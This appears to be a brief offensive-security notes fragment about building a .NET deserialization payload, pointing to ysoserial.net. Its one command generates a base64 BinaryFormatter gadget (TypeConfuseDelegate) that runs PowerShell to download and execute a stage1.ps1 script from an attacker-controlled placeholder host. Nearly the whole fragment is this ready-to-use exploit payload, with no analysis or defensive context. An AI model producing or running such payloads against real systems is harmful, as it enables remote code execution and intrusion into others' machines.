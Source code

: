 # create deserialization object

checkout: https://github.com/pwntester/ysoserial.net

```cmd
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "Powershell -c IEX(new-object net.webclient).downloadstring('http://<ip>:<port>/stage1.ps1')"
```
